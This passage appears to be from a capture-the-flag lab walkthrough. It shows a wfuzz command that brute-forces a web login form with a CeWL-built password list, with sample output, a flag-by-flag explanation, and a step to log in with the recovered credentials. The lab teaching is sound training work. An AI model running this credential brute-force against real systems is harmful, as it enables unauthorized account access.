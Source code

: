     Terminal
    
    ```shell-session
    user@tryhackme$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://MACHINE_IP/login.php
    Total requests: 60372
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                             
    =====================================================================
    
    000018052:   302        124 L    323 W      5047 Ch     "REDACTED - REDACTED"                                
    
    Total time: 412.9068
    Processed Requests: 60372
    Filtered Requests: 60371
    Requests/sec.: 146.2121
    ```
    
    In the command above:
    
    - `-z file,usernames.txt` loads the usernames list.
    - `-z file,passwords.txt` uses the password list generated by CeWL.
    - `--hs "Please enter the correct credentials"` hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
    - `-u` specifies the target URL.
    - `-d "username=FUZZ&password=FUZ2Z"` provides the POST data format where **FUZZ** will be replaced by usernames and **FUZ2Z** by passwords.
    
    Note: The output above contains the word REDACTED since it contains the correct combination of username and password.
    
4. The login portal of the application is located at `http://MACHINE_IP/login.php`. Use the credentials you got from the brute-force attack to log in to the application.
    
    ![Dashboard of the application](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/605e7f87a20f7f637cd8b7e216710d78.png)  
    

#### Conclusion

AntarctiCrafts' unexpected breach highlighted the power of specialised brute-force attacks. The swift and successful unauthorised access suggests the attacker likely employed a unique, context-specific wordlist, possibly curated using tools like CeWL. This tool can scan a company's public content to create a wordlist enriched with unique jargon and terminologies.

The breach underscores the dual nature of such tools -- while invaluable for security assessments, they can also be potent weapons when misused. For AntarctiCrafts, this incident amplifies the significance of robust security measures and consistent awareness of potential threats.

Answer the questions below

![[Pasted image 20231206231731.png]]
